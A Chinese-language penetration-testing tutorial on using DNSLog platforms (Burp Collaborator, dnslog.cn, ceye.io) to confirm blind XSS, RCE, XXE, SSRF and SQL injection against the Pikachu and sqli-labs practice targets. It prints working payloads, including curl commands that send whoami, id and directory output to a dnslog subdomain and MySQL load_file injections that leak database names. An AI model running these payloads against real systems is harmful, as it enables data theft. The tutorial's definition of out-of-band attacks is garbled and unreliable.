


# Dnslog漏洞检测

```
DNSLog介绍
DNSLog是一种用于收集和分析DNS请求和响应的工具，它可以帮助安全研究人员或渗透测试人员在进行网络安全测试时追踪网络行为。DNSLog可以捕获DNS请求和响应，并记录该信息，同时可以对该信息进行分析和可视化。DNSLog通常用于检测恶意域名或IP地址，发现网络攻击行为以及监测员工的访问行为。
```

```
什么是无回显
在我们日常去做漏洞探测的时候，我们发送的payload，比如SQL注入，XSS注入的一个payload，发送到了服务器之后，服务器执行了我们的语句或者代码，服务器会返回给我们一个HTTP的响应。
这个返回的响应里面就包含了我们想要的结果。比如，我们在执行SQL注入语句时，返回界面会给我们爆出一些信息来让我们判断是否有SQL注入漏洞。
```

	

```
但是在某一些情况下，这个网站本身是存在漏洞的，但是它并不会在响应里面返回信息，导致我们无法判断当前页面是否存在漏洞，这种就是没有回显，在这种情况下我们要怎幺去获得我们执行的结果呢？
```

	

```
什么是DNSLog
DNSLog是一个DNS请求记录平台，可以记录和分析DNS请求的详细信息，包括请求来源、目标域名、请求时间和响应状态等。它主要用于安全研究、网络监控和恶意活动追踪等领域。DNSLog可以帮助安全团队快速识别恶意域名、恶意软件和网络攻击，提高安全性能和响应能力。

比如我们的浏览器要访问 baidu.com 这个域名，那么这个域名会先经过DNS的服务器解析，返回给我们一个IP地址，然后我们的浏览器再根据这个IP地址找到真正的服务器，发送请求，然后这个服务器返回给我们一个响应。但是，其实DNS服务器在解析的过程中其实会记录日志，这个日志我们便把它称为DNSLog的日志，会记录以下信息：

1.查询时间：DNS查询的时间戳。
2.客户端IP地址：发出DNS查询请求的客户端的IP地址。
3.域名：查询的域名。
4.DNS类型：查询使用的DNS记录类型，如A、MX、CNAME、NS等。
5.DNS服务器IP地址：用于解析DNS记录的DNS服务器的IP地址。
6.响应结果：DNS查询的响应结果，包括对应的IP地址、CNAME记录等信息。
7.DNS查询是否成功：记录DNS查询成功或失败的状态。
```

	

```
DNSLog解决无回显
那么我们是如何通过DNSLog平台解决无回显的问题呢?
比如我们的浏览器向存在漏洞的网站发送了一个请求，这个请求包含了SQL注入的语句的同时又包含了对DNSLog服务器的请求，那么存在漏洞的网站便会将这个SQL注入语句执行了，然后它会将响应的结果拼接在DNSlog的子域名里面，通过DNSLog平台将结果回显给我们。
```

	

```
带外攻击（OOB=Out of Bind）
这种攻击方式我们也可以称为带外攻击（OOB=Out of Bind），带外攻击是一种网络攻击方式，攻击者通过操作目标系统的管理接口，绕过操作系统和网络安全设备的安全控制，直接对硬件进行攻击。这种攻击方式也被称为基于管理接口的攻击，可用于攻击服务器、网络设备和一些智能设备。
带外攻击可以利用目标系统的硬件漏洞和弱点，以获得高权限的访问，如超级用户权限。攻击者可以利用此权限访问和窃取目标系统上的敏感信息、操纵目标系统的设置和配置，或者在目标系统上植入恶意软件。
```

```
DNS解析流程如下：
1.用户在浏览器输入网址，比如www.example.com。
2.操作系统会先检查hosts文件，如果有该网址的解析记录，则直接返回对应的IP地址。如果没有，则进行下一步。
3.操作系统将请求发送给本地域名服务器，本地域名服务器一般由网络服务提供商提供。本地域名服务器会先检查自己的缓存，如果有该网址的解析记录，则直接返回对应的IP地址。如果没有，则进行下一步。
4.本地域名服务器会向根域名服务器发起请求，根域名服务器有13个，分布在全球不同地方。根域名服务器会返回包含顶级域名服务器信息的响应，比如.com、.org等。
5.本地域名服务器根据顶级域名服务器的信息，向对应的顶级域名服务器发起请求，比如向.com域名服务器发起请求。顶级域名服务器会返回包含下一级域名服务器信息的响应，比如example.com的域名服务器。
6.本地域名服务器根据下一级域名服务器的信息，向对应的域名服务器发起请求，比如向example.com的域名服务器发起请求。域名服务器会返回对应的IP地址。
7.本地域名服务器将获取到的IP地址缓存起来，并将该IP地址返回给操作系统。
8.操作系统将获取到的IP地址返回给浏览器。
9.浏览器根据IP地址向对应的web服务器发起请求，获取网页内容。
```

## DNSLog平台

### Burp Collaborator

```
首先我们从BurpSuite里面自带的一个工具开始讲起，它是集成在BurpSuite工具里面的，非常方便我们去做渗透测试的时候使用。
第一步，我们点击选项菜单栏中的 Project options
第二步，在 Burp Collaborator Server 选项框中点击 Run health check进行DNSLog服务器连通性的检查
```

	

```
以下画面是检测正常的情况，说明可以客户端可以连接到bp的dnslog平台。
```

	

```
第三步，点击 Burp 选项栏下的 Burp Collaborator client
```

	

```
进入到以下的界面，点击 Copy to clipboard，复制到粘贴板，这时 BurpSuite的DNSLog服务器会分配给我们一个子域名
```

	

```
现在我们打开 cmd ，去 ping 这个分配给我们的子域名地址，并随便加上一点前缀
```

	

```
然后我们回到页面，点击 Pollnow，
```

	

```
这时，我们便可以看到DNSLog平台回应给我们的解析记录了
```

	

### dnslog.cn

```
dnslog.cn是我们国内目前最知名的DNSLog服务平台，也是最常用的DNSLog服务平台，注意使用时使用HTTP协议访问，DNSLog的平台
```

```
点击 Get SubDomain获取一个子域名，比如我们这里得到的子域名就是 94w7iv.dnslog.cn
```

	

```
如果我们想要通过DNSLog平台得到一些系统的信息，那么该怎么办呢？
我们打开 cmd 去 ping 这个子域名，这里我们在子域名前面加上一些前缀，比如%username%
```

	

	

```
在Linux系统下，大家可以使用以下的语句去测试。
#获取变量值：
curl http://`whoami`.xxxxxx.dnslog.cn/
#base64编码输出：
curl http://$(id|base64).xxxxxx.dnslog.cn/
#循环获取文件输出：
for i in $(ls /);do curl
"http://$i.xxxxxx.dnslog.cn/";done;
```

### ceye.io

```
我们在使用dnslog.cn平台时，会发现有两个缺点，一是dnslog.cn平台所使用的解析记录是不持久保存的，一旦我们关闭了该界面，我们的解析记录就会消失，二是dnslog.cn平台只能支持我们去复制粘贴解析记录的结果，没办法大规模解析和提取我们想要的结果，所以，我们现在去使用一个更高级的DNSLog服务解析平台 ceye.io，它是由知道创宇安全公司推出的一款产品，它很好的解决了我们之前提到的两个问题。

ceye.io有以下特点：
一、提供给我们固定子域名，不会变动
二、DNS解析记录会在账号下保存，不会动不动就消失
三、提供在线API，可以使用各种编程语言调用

我们打开主界面点击 Profile 就可以得到我们相应的信息，这里需要我们提前去绑定手机号和邮箱，否则无法使用
```

	

```
Identifier就是提供给我们的个人固定专属的子域名
```

	

```
那么我们该如何使用呢？我们现在打开cmd，去 ping 我们的子域名并且随便加上一点前缀
```

	

```
然后我们在 DNS Query 便可以看到DNS服务器响应给我们的解析记录，这些解析记录可以保存最多6个小时和最近的100条记录。
```

	

## XSS漏洞探测

```
DNSLog的平台实际使用很长见的一种情况就是针对漏洞无回显的情况，我们通过让受害者的服务器主动发起对DNSLog服务平台的请求去外带一些信息，但更多的使用场景是我们仅仅使用DNSLog去作为探测漏洞是否存在的一种手段。比如XSS（跨站脚本攻击）漏洞、RCE（远程代码执行）漏洞、XXE（XML外部实体注入）漏洞、SSRF（服务器请求伪造）漏洞等。假如目标网站没有存在漏洞，那么DNSLog平台是不会出现解析记录的。这种情况下，我们利用DNSLog平台仅仅是为了验证该漏洞是否存在。

如果我们需要用DNSLog平台去探测一个网站是否存在XSS漏洞,那么我们该怎么操作呢？

首先我们先打开DNSLog平台，点击 Get SubDomain 获取一个子域名
```

	

```
获得子域名后，这里我们使用Pikachu的靶场作为演示
然后在文本框提交我们的payload
<script src=http://shqvzr.dnslog.cn></script>
```

	

```
能查看到pikachu靶场的申请域名解析的记录，说明具有xss漏洞。
```

	

## RCE漏洞探测

```
本文我们来学习如何利用DNSLog平台探测目标网站是否存在RCE漏洞，接下来我们还是利用Pikachu的靶场作为演示。首先我们先进入Pikachu靶场的RCE漏洞界面。
```

	

```
有关于RCE漏洞的DNSLog平台利用其实非常的简单，只需要在文本框去提交我们得到的子域名就好了
```

	

```
有解析记录说明存在RCE漏洞。
```

	

## XXE漏洞探测

```
接下来我们还是利用Pikachu的靶场作为演示。首先我们先进入Pikachu靶场的XXE漏洞界面。
```

	

```
接下来我们只需要提交以下的payload，将其中的XXXXX部分替换为我们从DNSLog服务平台获取到的子域名就好了。
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM
"http://i2ypch.dnslog.cn">%remote;]>
```

	

```
有记录说明存在XXE漏洞。
```

	

## SSRF漏洞探测

```
接下来我们还是利用Pikachu的靶场作为演示。首先我们先进入Pikachu靶场的SSRF漏洞界面。
```

	

```
如果没有回显，那么就该利用DNSLog平台来解决无回显的问题了，首先我们打开DNSLog服务平台，点击 Get SubDomain 获取一个子域名.
```

		

```
接下来我们只需要提交以下的payload，将其中的XXXXX部分替换为我们从DNSLog服务平台获取到的子域名就好了
http://localhost/pikachu/vul/ssrf/ssrf_curl.php?url=http://ljjci7.dnslog.cn
```

	

## sql注入漏洞探测

```
由于接下来的探测需要用到load_file函数，所以需要说明使用条件。
1.需要读取的文件在数据库本机
2.用户对文件要有允许访问的权限
3.需要读取的文件的大小要小于max_allowed_packet，否则返回NULL
```

```
以下是现版本数据库中有关于max_allowed_packet的大小限制，一般默认情况是32MB大小
show variables like '%max_allowed_packet%';
```

	

```
secure_file_priv参数
在MySQL 数据库中除了读取文件的操作，还有写入文件的操作。在MySQL 数据库中读写文件都受到secure_file_priv参数的限制，在在MySQL 数据库中secure_file_priv的参数有三种类型，当secure-file-priv=""时，我们可以对任意文件执行导入导出的命令
```

	

```
需要在mysql的配置文件设置好，才可以使用读写函数。
```

	

```
查询确认为空，说明可以进行读写操作了。
show variables like '%secure_file_priv%';
```

	

```
这里以sqli-labs靶场为例子。直接注入会发现没有会显出来。
?id=1--+
```

	

```
由于无回显就可以使用dnslog了。
首先我们打开DNSLog的平台，点击 Get SubDomain获取一个子域名。
然后将需要读取的文件替换为DNSLog平台获取到的子域名地址，这里需要注意的是经过转义之后是\\，是Windows系统里常用的UNC路径的格式，而后面的 /test 是必须要写的，它代表着UNC路径里一个文件夹的名字，当然文件夹的名字可以随你怎么取都行，总而言之正确的格式就是这样。整条语句的意思就是取读取一个文件夹，我们在UNC路径中添加了DNSLog平台的地址，让这条语句在执行时能够去访问我们的DNSLog平台，从而产生解析记录。

直接通过dnslog获得无回显的结果。
#原始的payload
?id=1' and if((select load_file(concat('////',database(),'.if0k8v.dnslog.cn/wuya'))),1,0) --+
```

	

```
如果我们想要查询第二个数据库的库名，便可以使用以下的语句去查询
?id=1' and if((select load_file(concat('////',(select schema_name from information_schema.schemata limit 1,1),'.whzrgn.dnslog.cn/wuya'))),1,0) --+
```

	


